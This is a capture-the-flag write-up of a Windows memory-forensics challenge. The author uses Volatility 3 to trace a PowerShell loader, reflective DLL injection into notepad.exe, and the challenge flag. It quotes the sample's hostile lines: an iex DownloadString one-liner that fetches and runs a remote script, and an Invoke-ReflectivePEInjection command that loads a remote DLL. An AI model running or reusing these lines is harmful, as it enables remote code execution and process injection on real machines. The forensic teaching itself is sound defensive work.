









# WRITE_UP #

## REFLECTION ##

### 1. Analysis ###
* **Given:** a memory dump file named `memory.raw`
* **Description:** You and Miyuki have succeeded in dis-empowering Draeger's army in every possible way. Stopped their fuel-supply plan, arrested their ransomware gang, prevented massive phishing campaigns and understood their tactics and techniques in depth. Now it is the time for the final blow. The final preparations are completed. Everyone is in their stations waiting for the signal. This mission can only be successful if you use the element of surprise. Thus, the signal must remain a secret until the end of the operation. During some last-minute checks you notice some weird behaviour in Miyuki's PC. You must find out if someone managed to gain access to her PC before it's too late. If so, the signal must change. Time is limited and there is no room for errors.
* **Hints:**   
    * No hints are given

### 2. Investigation ###
Given a memory dump, the most optimal tool here I can use is Volatility, in this challenge, I personally used `Volatility 3`.

First, I ran `pstree` to see the process tree and I found something interesting:

```bash
vol -f memory.raw windows.pstree
```





Apparently, I spotted `notepad.exe` PID 3244 was launched just 7 seconds before `powershell.exe` PID 3424, which is suspicious. So I tried using `grep` to see if there was any malicious powershell in the memory dump:

```bash
vol -f memory.raw windows.filescan | grep '.ps1'
```



As I thought, there was a weird file named `update.ps1` in offset `0x3f4551c0`. Now I can carve the file to analyze it more:

```bash
vol -f memory.raw windows.dumpfiles --physaddr=0x3f4551c0
```



This PowerShell script acts as a loader. It downloads a remote PowerShell script and then performs reflective DLL injection into `notepad.exe`:

* The first line:
```ps1
iex (New-Object net.webclient).Downloadstring('https://windowsliveupdater.com/sysdriver.ps1');
```
creates a .NET WebClient object and uses DownloadString() to fetch the remote PowerShell script sysdriver.ps1. The downloaded content is then executed directly with iex, short for Invoke-Expression.

* The second line:
```ps1
Invoke-ReflectivePEInjection -PEUrl https://windowsliveupdater.com/winmgr.dll -ProcName notepad
```
uses the function `Invoke-ReflectivePEInjection`, which is commonly associated with `PowerSploit`. This function can load a PE file, such as a DLL or EXE, directly into memory. The `-ProcName notepad` argument tells the function to inject the DLL into the process named `notepad.exe`.

So the process roles are:
* powershell.exe = downloads the script, downloads the DLL, performs injection
* notepad.exe   = victim process that receives the injected DLL
* winmgr.dll    = payload DLL reflectively loaded into notepad
 


Now I could use `windows.malfind` with the pid of `notepad` to extract the suspicious file in the memory of notepad.

How plugin **windows.malfind** works: it scans the **VAD** - `Virtual Address Descriptor` tree of a process and looks for private executable memory regions, which are commonly created by process injection techniques. `VAD` shows memory range, for example:
 
```bash 
  0x000b0000 - 0x000b3fff
  Protection: PAGE_EXECUTE_READWRITE
  PrivateMemory: True
```

* Normally, legitimate `.dll` files are mapped from files on disk, such as `kernel32.dll`, `user32.dll`, or `notepad.exe`. These memory regions are usually image-backed and have a clear file path associated with them.

* Injection is different. An attacker often performs steps such as: 
  * VirtualAllocEx      -> allocate memory inside another process
  * WriteProcessMemory  -> write shellcode or a dll into that memory
  * CreateRemoteThread  -> execute code from that injected memory region

* As a result, the target process may contain a memory region with suspicious features:
  * Private memory
  * Executable permission
  * Not mapped from a legitimate file on disk
  * Contains bytes that look like code or a PE header

* malfind walks through the process VADs and looks for suspicious patterns such as: `PAGE_EXECUTE_READWRITE`, `PAGE_EXECUTE_WRITECOPY`, `PAGE_EXECUTE_READ`, `PrivateMemory = True`, ...

Back to the challenge, I ran:
```bash
vol -f memory.raw -o malfind_3244 windows.malfind --pid 3244 --dump
```



In my environment, `malfind` crashed while rendering the disassembly column due to a `Capstone` issue. So I added `--dump` argument for Volatility to save the suspicious VAD to disk.



Since `strings` only confirmed that the dump was a dll and showed imports such as `WinExec`, it did not reveal the flag directly, I used IDA to decompile the binary. There's only 3 functions in the program, so I quickly identified the encoded flag in a PowerShell command:





### 3. Solution ###
1. **Result:** The flag is `HTB{dlls_c4n_b3_h4rd_t0_f1nd}`
